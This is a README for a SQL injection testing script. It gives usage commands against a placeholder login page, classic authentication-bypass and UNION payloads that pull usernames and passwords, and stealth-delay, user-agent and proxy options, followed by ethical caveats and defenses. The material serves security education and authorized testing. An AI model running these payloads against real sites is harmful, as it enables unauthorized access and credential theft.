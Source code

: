 # SQL Injection Attack Simulation

## Overview

SQL Injection is a code injection technique that exploits vulnerabilities in web applications that use SQL databases. Attackers can insert malicious SQL statements into entry fields, which can allow them to bypass authentication, access sensitive data, or even modify database contents.

This script simulates SQL injection attacks for educational and authorized security testing purposes.

## Features

- Multiple SQL injection payload testing
- Customizable target URLs and form fields
- Response analysis to detect vulnerabilities
- Payload loading from external files
- Detailed logging and statistics
- Success/failure tracking

## Requirements

- Python 3.6+
- Mechanize library (for web form interaction)
- Requests library (for HTTP requests)

## Installation

```bash
# Install required dependencies
pip install mechanize requests
```

## Usage

### Basic Attack

The simplest way to run an SQL injection attack simulation is to specify a target URL and the form control name:

```bash
python sql_injection.py -t http://vulnerable-website.com/login.php -c username
```

This will:
- Target the specified URL
- Focus on the form field named "username"
- Use default SQL injection payloads from the built-in list
- Use the default delay of 1 second between requests

### Using Custom Payloads

You can specify your own SQL injection payloads:

```bash
# Using comma-separated payloads
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -q "' OR '1'='1', admin' --"
```

### Using a Payload File

For more comprehensive testing, you can use a file containing SQL injection payloads:

```bash
# Using a payload file (one payload per line)
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -f sql-queries.txt
```

### Customizing the Attack

#### Adjust Delay Between Requests

To control the rate of requests:

```bash
# Use a 2-second delay between requests (more stealthy)
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -d 2

# Use a 0.5-second delay (more aggressive)
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -d 0.5
```

#### Set Request Timeout

To adjust how long to wait for each request:

```bash
# Use a 10-second timeout for each request
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -T 10
```

#### Specify User Agent

To use a custom user agent:

```bash
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```

#### Use a Proxy

For routing requests through a proxy (useful for tools like Burp Suite):

```bash
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -x http://127.0.0.1:8080
```

#### Enable Verbose Mode

For detailed output and debugging information:

```bash
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -v
```

## Advanced Usage

### Testing Different Injection Points

SQL injection vulnerabilities can exist in different parts of a web application:

```bash
# Test username field
python sql_injection.py -t http://vulnerable-website.com/login.php -c username

# Test password field
python sql_injection.py -t http://vulnerable-website.com/login.php -c password

# Test search field
python sql_injection.py -t http://vulnerable-website.com/search.php -c query
```

### Creating Custom Payload Files

Different types of databases may require different SQL injection techniques:

```bash
# Create a MySQL-specific payload file
echo -e "' OR 1=1 -- -\n' UNION SELECT 1,2,3 -- -\n' UNION SELECT username,password,3 FROM users -- -" > mysql_payloads.txt

# Use the created payload file
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -f mysql_payloads.txt
```

### Combining with Other Tools

For a more comprehensive security assessment, combine with other tools:

```bash
# Use with a proxy for request interception
python sql_injection.py -t http://vulnerable-website.com/login.php -c username -x http://127.0.0.1:8080 -v
```

## Ethical Considerations

This tool should ONLY be used for:
- Educational purposes
- Authorized security testing
- Web application vulnerability assessment

Unauthorized use against systems without explicit permission is illegal and unethical.

## Defensive Measures

Common defenses against SQL injection attacks include:

1. Prepared statements with parameterized queries
2. Stored procedures
3. Input validation and sanitization
4. Escaping special characters
5. Principle of least privilege for database accounts
6. Web Application Firewalls (WAF)

Understanding these attacks helps in implementing proper defenses.

## Command Line Options

```
-t, --target-url      Target URL (required)
-c, --control-name    Form control name to inject into (required)
-q, --queries         Comma-separated list of SQL injection payloads
-f, --file            File containing SQL injection payloads (one per line)
-d, --delay           Delay between requests in seconds (default: 1.0)
-T, --timeout         Request timeout in seconds (default: 30)
-a, --user-agent      Custom User-Agent string
-x, --proxy           Proxy URL (e.g., http://127.0.0.1:8080)
-v, --verbose         Enable verbose output
```

## License

Proprietary - Montimage
